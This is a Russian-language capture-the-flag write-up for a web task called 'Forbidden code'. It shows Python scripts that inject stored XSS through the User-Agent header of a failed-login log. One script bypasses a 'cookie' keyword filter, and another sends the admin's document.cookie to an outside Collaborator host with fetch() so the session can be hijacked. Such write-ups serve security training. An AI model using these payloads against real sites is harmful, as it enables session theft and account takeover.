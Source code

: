 # Forbidden code writeup
Указанная сложность таска - сложный

Для начала перейдем по указанному нам ip-адресу
>***62.173.140.174: 16013***

Вот что нас встречает
![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/db842813-38bb-4e0c-b884-06ad635d44e7)

Похоже на форму входа, есть ссылка на регистрацию, ну, попробуем зарегистрироваться 
![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/9ea47466-4aac-4229-b349-ba2983d2498d)

Нам пишут о неудачных попытках входа, значит попробуем неудачно зайти, и обновить страницу

![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/a45efe91-90ed-46dc-9c6c-112293142e8a)

Отлично! Нам показывают данные о неудачной попытке

Итак, мы можем что-то вводить, кто-то может получать, надо проверять на XSS уязвимости.
Регистрируем пользователя с ником `<script>alert(2)</script>` и после пытаемся провально зайти на него с другого браузера

![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/adfe66e3-e75a-4a13-9951-59396e3a76f7)

Мы получили сообщение,это значит, что сайт уязвим. Вспомним, что мы видим в информации о попытке входа, и подумаем что нам подсилу поменять.
Подделать ip-адрес под скрипт у нас не получиться, ник тоже, а вот **user-agent**, звучит возможным.

Нам нужны куки админа, что бы нам дали доступ к его аккаунту. Спрашиваем у гугла, как получать печенье, и понимаем, что нам нужено перехватить **document.cookie**. Передадим его в обычный ``alert``, нам понадобиться небольшой код на питоне.
```
import requests


payload = '<script>alert(document.cookie);</script>'

user = "{имя нашего пользователя}" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
```

И вроде мы ко всему готовы, но не к фильтрации, в таксе фильтруется слово **cookie**, почему бы нам его не разбить на две части с помощью массива, js соединит их в едино, и так мы обойдём фильтрацию
```
import requests


payload = '<script>const vv = ["coo", "kie"].join("");alert(document[vv]);</script>'

user = "{имя нашего пользователя}" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
```

Мы обошли!

Дальше нам понадобиться Burp Suite Pro, способ получения не важен.

Если быть точнее, то нам нужна вкладка **Collaborator**
![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/f18be37f-db23-49dc-854e-6eeb7d464f43)

Нажимаем на кнопку **Copy clipboard**, то что мы скопировали вставляем к нам код, я указ место для вставки как *ссылка перехвата*
```
import requests


payload = '<script>const vv = ["coo", "kie"].join(""); var payload = `https://{{ссылка для перехвата}}/?${vv}=` + document[vv]; fetch(payload);</script>'

user = "admin" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
```

Запускаем наш код, ждём минутку, и наживаем на конопку **pull now** в Burp Suit

![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/04b4c2be-0c82-41ce-b8b2-603ff2fc8cd6)

Рассмотрим наш улов.  
>cookie=PHPSESSID=um1h6ekatsrb2drjjas4msqamu

***В случае если нет возможности использовать Burp Suit, можно воспользоваться webhook***

Это и есть печенье нашего админа, сделаем так, что бы он с нами поделился, с помощью **Cookie-Editor**

![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/a3b44f5a-2104-415f-915e-2d761ea30d16)

Сохраняем, пытаемся зайти под ником **admin** и видим наш флаг

![image](https://github.com/BlankGODDAMN/codeby_writeup/assets/162637113/d5e03990-a226-4ffc-9e9f-d24499e95391)
